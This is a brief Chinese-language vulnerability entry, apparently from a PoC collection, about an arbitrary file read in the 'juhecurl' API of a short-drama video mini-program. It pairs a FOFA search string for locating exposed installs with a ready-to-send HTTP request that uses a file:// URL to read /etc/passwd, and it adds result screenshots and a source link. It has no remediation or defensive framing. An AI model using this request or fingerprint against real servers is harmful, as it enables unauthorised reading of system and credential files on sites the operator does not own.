 # 短剧影视小程序前台juhecurl任意文件读取漏洞



## fofa

```yaml
"/VwmRIfEYDH.php"
```

## poc

```javascript
GET /api/ems/juhecurl?url=file:///etc/passwd HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20240902102433044](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409021024146.png)

![image-20240902102440030](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409021024087.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/3WYJzQnjl8hP7oXVZUEQuA